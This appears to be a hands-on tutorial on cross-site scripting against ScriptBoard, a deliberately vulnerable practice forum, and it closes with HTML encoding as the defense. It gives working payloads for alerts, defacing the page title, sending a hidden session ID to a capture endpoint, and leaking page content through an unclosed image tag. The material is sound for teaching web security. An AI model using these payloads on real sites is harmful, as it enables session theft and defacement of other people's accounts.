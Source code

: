 ```yaml
---
title: Cross-Site Scripting (XSS) Walkthrough
---
```

Cross-Site Scripting (XSS) is a type of injection attack where scripts, links, or other malicious code is inserted into user-supplied content on a website. [OWASP](https://owasp.org/) considers "cross-site scripting" to be a misnomer since not all attacks involve more than one website. Nevertheless, it is the industry-accepted name for this type of attack.

_**Warning:** Attempting to attack a website or computer system without authorization is illegal. While doing this walkthrough and experimenting with the website, you have permission to practice XSS exploits on [ScriptBoard.dicax.org](https://scriptboard.dicax.org). Nevertheless, you are **not** permitted to attack or seek vulnerabilities on the web server or its host. You should use the knowledge you gain from these activities to make your own applications more secure. You should not use the knowledge and skills you gain to attack other sites without permission from the owners. ScriptBoard is designed to restrict your exploits to your own computer and session. You should not attempt to break into other users' sessions._

[ScriptBoard](https://scriptboard.dicax.org) simulates an online forum or message board with two special characteristics. First, it is vulnerable to XSS type exploits. Second, each session is restricted to viewing the messages posted from that session. In other words, you can only see your own message. This is to keep you from posting exploits that would affect some else.

Browse to [https://scriptboard.dicax.org](https://scriptboard.dicax.org){: target="_blank"}. You will see an empty message board. Write a message and click `Post` to see how it works.

The message board supports HTML so that you can format text. (You will exploit that later.) For now, post something benign like bolding some text.

```
Rise and <b>shout!</b>
```

Create a simple exploit by putting a popup message on the screen. This sort of thing is a quick way to test whether a site has XSS vulnerabilities.

```
<span onmouseover="alert('gotcha!')">My name is Scott!</span>
```

Hover over the new message ahd you should get an alert popup.

You can use some script to **deface** the site by changing text. A more sophisticated attack might even add images. Compared to what's possible, this one is relatively mild:

```
<b>Show me.</b>
<script>
document.getElementById("sitename").textContent = "Freefall Experience";
</script>
```

Notice that the title has changed. Of course, this walkthrough gave away that the needed element ID is `sitename` Suppose you didn't know the ID. You could find it by opening the inspector in the browser and locating the appropriate element in the HTML tree.

You can retrieve data from other sites and insert it. Here's an example that gets a scripture from our [Scripture of the Day service](https://scripture.dicax.org) and inserts it into the message board.

```
<span id="xss43"></span>
<script>
fetch("https://scripture.dicax.org/api/second")
    .then((response) => response.json())
    .then((json) => document.getElementById("xss43").textContent = json.text);
</script>
```

More damaging would be to steal data from a site and post it somewhere else. ScriptBoard has a URL for capturing information at [https://scriptboard.dicax.org/Capture](https://scriptboard.dicax.org/Capture). Anything you put in the query string or the POST data will be captured and you can view all captures by browsing to [https://scriptboard.dicax.org/ViewCaptures](https://scriptboard.dicax.org/ViewCaptures). (A `Captures` link is in the upper-right.)

The page has a hidden element storing the `Session ID`. Retrieve that data and send it to the capture URL like this:

```
<script>
fetch("/Capture?sessionId=" + document.getElementById("sessionId").textContent);
</script>
No exploit here. Nope, definitely not!
```

Now look at the ViewCaptures page (by clicking `Captures` in the upper-right) to see what has been collected.

Scripting doesn't have to be enabled to successfully apply an XSS attack. In this example we deliberately fail to close quotes on an image link. The browser will treat everything following this post up to the next quote as part of the query string. And, since the link is to the `Captures` URL the data will be captured. After putting this in a post, go check [ViewCaptures](https://scriptboard.dicax.org/ViewCaptures) to see what it found.

```
Hello.<img src="/Capture?data=
```

One common way to prevent XSS attacks is to HTML encode all user-provided content. While this method doesn't support rich text, it ensures that no malicious code can be injected. ScriptBoard has a "safe" version of the main page that does just that; HTML Encode all user-supplied data. Click the `Safe` link in the upper-right menu to see all of the posts without exploits.

## On Your Own

You can experiment with other XSS exploits on the site. Try to do the following, or come up with your own exploits:

* The page has some JavaScript that will unscramble a hidden message. Make that message appear somewhere or send it to the captures.
* Display the hidden `sessionId` value instead of capturing it.
* Steal the session cookie and send it to the captures. (Note: The real session cookie is protected from JavaScript. The one you can find with an exploit is a simulated session cookie.)
* Change colors or fonts.

_**Remember:** You are authorized to experiment with exploits on your own ScriptBoard session. While the server doesn't have known cross-session vulnerabilities we still don't authorize you to attempt breaking into the server or accessing other sessions._